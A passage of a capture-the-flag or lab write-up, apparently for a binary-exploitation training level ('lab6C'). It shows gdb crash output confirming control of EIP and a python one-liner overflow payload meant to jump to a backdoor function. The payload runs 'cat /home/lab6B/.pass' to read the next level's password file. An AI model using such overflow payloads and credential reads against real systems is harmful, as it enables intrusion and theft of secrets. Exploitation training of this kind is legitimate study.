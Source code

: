 ```nasm
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xbffc6900 --> 0xa ('\n')
0004| 0xbffc6904 --> 0x0
0008| 0xbffc6908 --> 0x0
0012| 0xbffc690c --> 0x0
0016| 0xbffc6910 --> 0x0
0020| 0xbffc6914 --> 0x0
0024| 0xbffc6918 --> 0x0
0028| 0xbffc691c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
```

Okay, now we have control over **EIP**. The next step would be to overwrite the **EIP** with the address of the *secret_backdoor()* function and add the command we want to run to our payload. Here we can do something like this as the command we want to run will be pointed by **ESP**:

```nasm
gdb-peda$ r < <(python -c "print(40 * 'A' + '\xfa\n' + 196 * 'B' + 'CCCC' + 'cat /home/lab6B/.pass\n')")
Starting program: /levels/lab06/lab6C < <(python -c "print(40 * 'A' + '\xfa\n' + 196 * 'B' + 'CCCC' + 'cat /home/lab6B/.pass\n')")
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Tweet @Unix-Dude
>>: >: Tweet sent!

...[snip]...

Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xbfb865f0 ("cat /home/lab6B/.pass\n")
0004| 0xbfb865f4 ("/home/lab6B/.pass\n")
0008| 0xbfb865f8 ("e/lab6B/.pass\n")
0012| 0xbfb865fc ("b6B/.pass\n")
0016| 0xbfb86600 (".pass\n")
0020| 0xbfb86604 --> 0xa73 ('s\n')
0024| 0xbfb86608 --> 0x0
0028| 0xbfb8660c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
```
